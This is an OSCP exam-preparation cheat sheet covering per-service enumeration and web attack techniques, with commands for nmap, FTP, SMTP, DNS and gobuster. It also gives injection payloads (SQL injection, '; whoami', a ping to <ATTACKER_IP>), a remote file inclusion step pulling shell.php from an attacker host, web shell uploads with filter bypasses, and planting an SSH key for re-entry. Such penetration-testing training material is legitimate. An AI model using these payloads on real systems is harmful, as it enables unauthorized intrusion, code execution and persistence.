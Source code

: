 ## Penetration Testing Phases

### Reconnaissance & Enumeration 
- **Network Scanning (Nmap)** – Use Nmap to discover hosts, open ports, and services. Common options: `-sC` (default scripts), `-sV` (service/version detect), `-oA scan` (save output in all formats). For example: `nmap -sC -sV -Pn -T4 -p- -oA full_scan <TARGET>` to scan all ports with faster timing ([pen-200.pdf](file://file-XV2ghZoyonfFYmRprsyMfQ#:~:text=12,We%20recommended)). Always compare open ports with service banners and note potential avenues (e.g., web servers on 80/443, SMB on 445).
- **FTP (21)** – Check for anonymous login ([OSCP Guide | Rikunj Sindhwad - Xmind](https://xmind.app/m/QsNUEz/#:~:text=1,you%20found%20with%20other%20enum)): `ftp <TARGET>` (user: `anonymous` with any password). If successful, `ls` and `get` files looking for credentials or config backups. If upload is allowed (write access), and a web service is present, try uploading a web shell (e.g., FTP file upload to web root then access via browser) ([OSCP Guide | Rikunj Sindhwad - Xmind](https://xmind.app/m/QsNUEz/#:~:text=1,you%20found%20with%20other%20enum)). Also try any creds found elsewhere to authenticate (brute-force not usually needed).
- **SSH (22)** – Look for valid credentials from enumeration. If a username/password is found (reused credentials, leaked via files), attempt `ssh user@<TARGET>` ([OSCP Guide | Rikunj Sindhwad - Xmind](https://xmind.app/m/QsNUEz/#:~:text=1.%20maybe%20brute,Force%2099.99)). (Brute-forcing SSH is generally not effective within exam time ([OSCP Guide | Rikunj Sindhwad - Xmind](https://xmind.app/m/QsNUEz/#:~:text=1.%20maybe%20brute,Force%2099.99))). If SSH is open and you get a low-priv shell on the box via another vector, consider dropping your public key (`echo <key> >> ~/.ssh/authorized_keys`) for easier re-entry.
- **SMTP (25)** – Try VRFY/EXPN commands to enumerate users. For example: `telnet <TARGET> 25` and then `VRFY administrator` ([OSCP Guide | Rikunj Sindhwad - Xmind](https://xmind.app/m/QsNUEz/#:~:text=2.%20No%20Brute,443%2FHTTP%2FS)). Use a tool like `smtp-user-enum` to automate user enumeration. Discovered usernames can feed into password spraying or offline cracking. Also check for open relay (less common in OSCP labs).
- **DNS (53)** – If a domain name is known (from an SMB or LDAP query or given in exam), attempt a zone transfer: `dig axfr @<TARGET> <domain>` for misconfigured DNS. Also use `dnsrecon` or `dig` to brute-force subdomains (or repurpose `gobuster`/`ffuf` in DNS mode with a wordlist of subdomains).
- **HTTP/HTTPS (80, 443)** – Enumerate web servers thoroughly ([OSCP Guide | Rikunj Sindhwad - Xmind](https://xmind.app/m/QsNUEz/#:~:text=1,445%2FSMB%201.%20Null%20Session)). Use **Gobuster/FFUF** for hidden files and directories: e.g., `gobuster dir -u http://<TARGET>/ -w common.txt -t 50 -x php,txt,html` to find content ([OSCP Guide | Rikunj Sindhwad - Xmind](https://xmind.app/m/QsNUEz/#:~:text=match%20at%20L301%203,u)). Use **Nikto** for quick vulnerability checks ([OSCP Guide | Rikunj Sindhwad - Xmind](https://xmind.app/m/QsNUEz/#:~:text=1,445%2FSMB%201.%20Null%20Session)). Identify technologies/CMS (use `whatweb` or look at page source) and search for known exploits (`searchsploit <name>`) ([pen-200.pdf](file://file-XV2ghZoyonfFYmRprsyMfQ#:~:text=For%20example%2C%20we%20can%20search,the%20SMB%20service%20on%20the)). Test manually for common web vulnerabilities:
  - *SQL Injection*: Try a `' OR '1'='1` in parameters or use **sqlmap**: `sqlmap -u "http://<TARGET>/page?param=1" --batch --dbs`.
  - *LFI/RFI*: Test file inclusion by injecting `../` sequences or `http://` URLs in parameters. For LFI, try retrieving `/etc/passwd` or web config files (use a list like **PayloadAllTheThings**). For RFI, set up a quick HTTP server on your attacker (`python3 -m http.server 8080`) and point the vulnerable include to your payload (e.g., `http://<ATTACKER>:8080/shell.php`) ([OSCP Guide | Rikunj Sindhwad - Xmind](https://xmind.app/m/QsNUEz/#:~:text=4.%20Python3%20,Attacker_IP%3APORT%3E%2Ftest%207.%20Linux)).
  - *Command Injection*: Try adding `; whoami` or `&& ping -c2 <ATTACKER_IP>` in form fields or URL params. Observe response or use a listener for a ping. If blind, consider time delays (`ping -n 5 127.0.0.1` on Windows).
  - *File Upload*: If the site allows file uploads, attempt to upload a web shell (e.g., a PHP reverse shell). Bypass filters by changing extensions or adding null bytes if needed. After upload, access the file to execute code.
  - *Authentication Bypass / Default Creds*: Try default creds for common web apps (e.g., `admin:admin`). Check for exposed admin interfaces or insecure direct object references.